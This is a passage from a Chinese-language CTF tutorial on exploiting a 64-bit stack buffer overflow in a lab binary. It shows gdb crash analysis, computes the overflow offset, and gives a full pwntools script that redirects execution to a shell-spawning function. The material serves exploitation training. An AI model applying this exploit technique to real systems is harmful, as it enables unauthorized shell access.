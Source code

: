 `$ gcc -fno-stack-protector level3.c -o level3`  
通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：  
```
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
然后运行gdb ./level3后输入这串字符串造成程序崩溃。  
```
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
```
奇怪的事情发生了，PC指针并没有指向类似于0x41414141那样地址，而是停在了vulnerable_function()函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。  
```
(gdb) x/gx $rsp
0x7fffffffe188: 0x3765413665413565
```
在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。  
```
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```
可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于0x00007fffffffffff的地址，看看这次能否控制pc的指针。  
```
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload 
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```
可以看到我们已经成功的控制了PC的指针了。所以最终的exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive()
```
